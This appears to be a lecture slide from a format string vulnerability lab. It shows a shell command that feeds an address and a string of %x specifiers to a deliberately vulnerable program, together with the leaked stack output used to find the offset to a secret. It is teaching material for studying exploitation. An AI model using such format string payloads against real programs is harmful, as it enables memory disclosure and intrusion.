

# Print Secret - Construct Input to Observe Distance (Screen shot)
$ echo $(printf “\x1c\xb0\x04\x08").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x | vul_prog_no_integer
The variable secret's address is 0xbffff2e0 (on stack)
The variable secret's value is 0x 804b018 (on heap)
secret[0]'s address is 0x 804b018 (on heap)
secret[1]'s address is 0x 804b01c (on heap)
Please enter a string
�.bffff2e8.1.b7eb8309.bffff30f.bffff30e.0.bffff3f4.804b018.804b008.804b01c.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e
The original secrets: 0x44 -- 0x55
The new secrets:  	0x44 -- 0x55

Distance is 10